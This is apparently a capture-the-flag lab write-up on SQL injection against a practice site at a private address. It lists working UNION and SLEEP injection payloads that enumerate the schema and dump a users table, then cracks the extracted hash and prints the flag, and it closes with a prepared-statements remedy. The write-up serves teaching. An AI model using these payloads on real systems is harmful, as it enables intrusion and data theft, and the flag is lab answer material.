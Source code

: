 # SQL_Injection
Ahhhh the notorious SQL Injection. This attack from the hacker aims to manipulate the database specifically an SQL database to expose sensitive data such as user email and password if the website does have such. Basically if an Input is used to search through the database for a specif field, table or database data, and is not hanled properly by the server. A hacker can just simply append an Instruction to value that asks for the database to give out more information than what was originally purposed.

## Example
In http://192.168.43.251/index.php?page=member, we are presented with a page that has a form input. An obvious assumpution is that since the input requires a values to search for a particular member, that value is used by the server to query the database. We can simply check this by giving a value and appending to it anything that might error, or even tell us the type of SQL database that is beign used for example

If we give this value ' and then we get an error from the database then we know that the input is being taken straight to the database and is being as is. This is exacly what happens in this case. We receive the 
Error: "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1".
From here on out we can genlty manipulate the database and ask it to give the name of the tables, databases and the type of database being used. And so through a set of commands we are not only able to determine the type of database but alson all the databases along with their tables and fields.

## Commands
* 1  AND 1 = SLEEP(2);--
* 1 UNION (SELECT 1,2 FROM dual );--
* 1 UNION (SELECT TABLE_NAME, TABLE_SCHEMA  FROM information_schema.tables);--
* 1 UNION (SELECT COLUMN_NAME, 1 FROM information_schema.columns );--

    ### One of these tables is users
    Table : users
    > Colunm : user_id
    > Colunm : first_name
    > Colunm : last_name
    > Colunm : town
    > Colunm : country
    > Colunm : planet
    > Colunm : Commentaire
    > Colunm : countersign
 * And through a number of these commands we are able to retrieve out flag   
    ### Retrive flag
    * 1 UNION (SELECT user_id, first_name FROM users);--
    * 1 UNION (SELECT last_name, town FROM users);--
    * 1 UNION (SELECT country, planet FROM users);--
    * 1 UNION (SELECT Commentaire, countersign FROM users);--

    * instruction: Decrypt this password -> then lower all the char. Sh256 on it and it's good !   
    * hash : 5ff9d0165b4f92b14994e5c685cdce28

flag: 5ff9d0165b4f92b14994e5c685cdce28 -md5> fortytwo  -sha256> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 

## Remedy
* Now all of this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input.

# Resources
    https://www.youtube.com/watch?v=ciNHn38EyRc